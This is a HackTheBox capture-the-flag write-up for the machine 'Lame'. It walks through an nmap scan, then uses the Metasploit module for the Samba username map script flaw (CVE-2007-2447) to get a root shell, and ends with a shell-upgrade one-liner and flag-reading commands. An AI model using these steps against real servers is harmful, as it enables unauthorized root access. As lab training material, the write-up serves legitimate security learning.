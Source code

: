 ```yaml
---
layout: post                                                                 
title: "HTB Writeup: Lame"                                     
date: 2023-03-12 09:00:00 -0500                                              
description: Lame is an easy HackTheBox machine created by ch4p. It involves exploiting a vulnerable samba server.                                            
img: htb-lame/lame-info-card.png                                                 
tags: [HackTheBox, HTB, Lame, Samba, Writeup, CVE-2007-2447]
---
```


Lame is an easy HackTheBox machine created by [ch4p](https://app.hackthebox.com/users/1). It involves some simple enumeration and the exploitation of a known Samba vulnerability.

# Enumeration 

To kick off this box, let's run a Nmap scan to see what services and ports are open. 

```
nmap -sC -sV 10.129.203.142 -oN top_1000
```

The scan shows that the ports for FTP (21), SSH (22), and Samba (139 & 445) are open. 

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-03-12T11:43:07-04:00
```

# Exploitation
Samba is infamously known for being chock-full of vulnerabilities. So, I'm going to start by checking for known exploits. After a quick Google search, I found that Samba 3.0.20 is vulnerable to [CVE-2007-2447](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script) A.K.A. "Samba Username Map Script Command Execution". 

This exploit is conveniently a Metasploit module. So, I will use Metasploit to carry out this attack. 

To begin, I'll type `msfconsole` into the commandline. 

From there, I'll find the module by using Metasploit's search feature:

```
msf6 > search "samba 3.0.20"

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

The exploit is the only one available. To get Metasploit to use this module, type `use 0` and then `show options`. 

You should get something that looks like this:

![msf options]({{site.baseurl}}/assets/img/htb-lame/msf-options.png)   

From here, I'll set the `LHOSTS` and `RHOSTS` parameters. 

- LHOST is your listening address. For most people, this will be equal to your `tun0` value (you can find this by using the `ifconfig` command). 
- RHOSTS is the machine's IP address. 

To set these values, use the following commands: 

_Note: Sub \<ip_address\> for Lame's IP address._ 

```
set RHOSTS <ip_address>
set LHOST tun0
```

Once those values are set, we can exploit the machine! Do this by typing `exploit` and pressing `Enter`! If all went well, you should have a root shell on the machine (A.K.A INFINITE POWER :joy:).

_Optional: To make your shell look better, use this Python one-liner:_
```
python -c 'import pty; pty.spawn("/bin/bash");'
```

From here, you can collect the user and root flags by running the following commands.

```
[User] cat cat /home/makis/user.txt
[Root] cat /root/root.txt
```

I hope you enjoyed this writeup! Happy Hacking :) 


